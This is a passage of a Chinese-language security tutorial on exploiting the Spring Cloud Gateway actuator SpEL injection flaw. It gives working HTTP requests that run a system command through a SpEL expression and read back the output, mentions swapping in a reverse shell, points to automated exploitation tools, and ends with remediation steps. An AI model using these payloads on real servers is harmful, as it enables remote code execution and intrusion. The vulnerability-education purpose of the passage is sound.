 ![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjQ3Q50oNmgGPgO1omksFSocjgUuKHk4ibOmHucKvCHOgak11DtbeicwHg/640?wx_fmt=png "")  
  
  
然后，发送如下数据包应用刚添加的路由，这个数据包将触发 SpEL 表达式的执行：  
```
POST /actuator/gateway/refresh HTTP/1.1Host: localhost:8080Accept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36Connection: closeContent-Type: application/jsonContent-Length: 329{"id":"hacktest","filters":[{"name":"AddResponseHeader","args":{"name":"Result","value":"#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}}],"uri":"http://example.com"}
```  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjRBMEoviboxLiaIBHicA2yV1VO4YyvxK4Sx6W10p3f4nrgkt42hkZpZhLw/640?wx_fmt=png "")  
  
  
最后发送如下数据包即可查看执行结果：  
```
GET /actuator/gateway/routes/hacktest HTTP/1.1Host: localhost:8080Accept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 0
```  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjHJt5AxzQKhbnkibVC31f4L96MTibjoHwY3zRD5JTjnx1JsFHLTEdwKhA/640?wx_fmt=png "")  
  
  
上面的演示只是为了简单起见，也可以将恶意路由的 SpEL 表达式替换为 basse64 的反弹 shell 命令。  
  
【漏洞修复方案】  
  
除了升级 Spring cloud Gateway 到最新版本以外，也可以禁用 actuator gateway。通过前面的漏洞利用过程可以看到，首先需要通过 /actuator/gateway/routes/{id}API  
 创建一条路由。因此将此 API 禁止，也可实现漏洞的修复。根据 Actuator 的 API 文档可知，启用 actuator gateway 需要设置以下两个配置的值：  
```
management.endpoint.gateway.enabled=true # default valuemanagement.endpoints.web.exposure.include=gateway
```  
  
因此只要这两个选项不同时满足，就不会启用 actuator gateway。  
### 漏洞自动化利用工具  
  
沿用前文提到的 SpringBoot 框架漏洞探测工具：https://github.com/0x727/SpringBootExploit：  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjyGbesxZCvv6oIic7DxnlYibRu3FuDN2x0pLokCJ85BIP7tXhrrOOfZfA/640?wx_fmt=png "")  
  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjOgLncZsfUmkJEicceneubPN90sTaz7EwdLicdTJ1EMzPPM3efibG5zt6Q/640?wx_fmt=png "")  
  
  
此漏洞扫描和利用也可以使用 Goby 社区版：https://github.com/gobysec/Goby，Goby是一款基于网络空间测绘技术的新一代网络安全工具，它通过给目标网络建立完整的资产知识库，进行网络安全事件应急与漏洞应急，官方文档：https://gobysec.net/faq。  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjn292UYhpPyYTSYpsxo2UR3Fk8Jg1tRK5eXQYVbvbQ2jX3KA66QlBjg/640?wx_fmt=png "")  
  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjILwVXkvEA3DQTmLlA4u11NazckdXFHOXLV0fgsZxx1h8z5rn6aibticw/640?wx_fmt=png "")  
  